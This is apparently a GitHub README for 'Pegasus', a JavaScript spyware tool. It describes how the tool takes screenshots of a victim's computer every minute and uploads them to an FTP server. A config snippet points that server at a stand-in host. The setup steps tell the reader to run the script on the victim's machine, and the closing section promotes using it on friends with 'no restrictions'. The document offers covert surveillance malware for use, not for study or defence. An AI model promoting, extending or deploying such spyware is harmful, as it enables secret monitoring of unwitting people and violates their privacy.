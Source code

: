 # Project Pegasus

#### _JavaSctipt Spyware_ 
---
Pegasus is a lightweight spyware made from JavaScript. This script can take screenshots from victim's pc and upload them to the ftp server you provide in the script.

###### Made with these npm modules:
![npm version](https://img.shields.io/badge/fs-v0.0.1--security-gray?labelColor=blue) ![npm version](https://img.shields.io/badge/desktop--screenshot-blue) ![npm version](https://img.shields.io/badge/ftp-v0.3.10-gray?labelColor=blue)

---


## Setup Guide
1. Insert your ftp server details to the script.

    ```js
        48.  const ftpConfig = {
        49.      host: 'ftp.example.com',
        50.      port: 21, // Default FTP port is 21
        51.      user: 'username',
        52.      password: 'password'
        53.  };
    ```
2. In your ftp server root directory, create a new folder named `screenshots`.
This is the folder where victim's screenshots will upload.

3. Run the script on victim's computer.
   After running this on the victim's computer, a new folder will appear in the `screenshots` folder with the public ip address of the victim. In that folder you will see screenshots of the victim. Screenshots will upload every 1 minute.

##### Yes as you noticed, the victim can steal your ftp data. But the legends know what they need to do!

---

## This tool...

- If you want to give some fun to a friend, then you can use this tool.
- You can get anything from this code and make your own tool.
- No restrictions
- No copytight
- No lisence
- **Free Software, Hell Yeah!**
